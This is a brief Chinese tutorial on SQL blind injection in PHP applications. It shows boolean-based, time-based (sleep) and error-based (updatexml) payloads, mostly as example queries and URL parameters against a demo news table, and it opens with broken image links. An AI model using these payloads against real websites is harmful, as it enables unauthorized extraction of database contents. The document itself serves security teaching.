







# PHP应用&SQL盲注&布尔回显&延时判断&报错处理&增删改查方式

```sql
select * FROM `news` WHERE id=1  AND LENGTH(DATABASE())=7
```



获取数据库长度，当发生错误时为结果为空

```SQL
select * FROM `news` WHERE id=1  AND LENGTH(DATABASE())=6
```



当长度正确是显示结果

查询数据库名的第一位,正确时有数据回显

```
select * FROM `news` WHERE id=1  AND LEFT(DATABASE(),1)='d';
```



盲注就是在注入过程中，获取的数据不能回显至前端页面。

我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注

## 1、基于布尔的SQL盲注-逻辑判断

regexp,like,ascii,left,ord,mid          需要数据回显

```
?id=1  AND LEFT(DATABASE(),1)='d'   
```



## 2、基于时间的SQL盲注-延时判断

if,sleep               成立5秒 不成立就0秒 

```
select * FROM `news` WHERE id=1 and if(1=1,sleep(5),0);
```



根据时间来判断是否正确

```
?id=1  and if(LENGTH(DATABASE())=6,sleep(5),0);
```

## 3、基于报错的SQL盲注-报错回显

floor，updatexml，extractvalue

```
select * FROM `news` WHERE id=1 and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
```



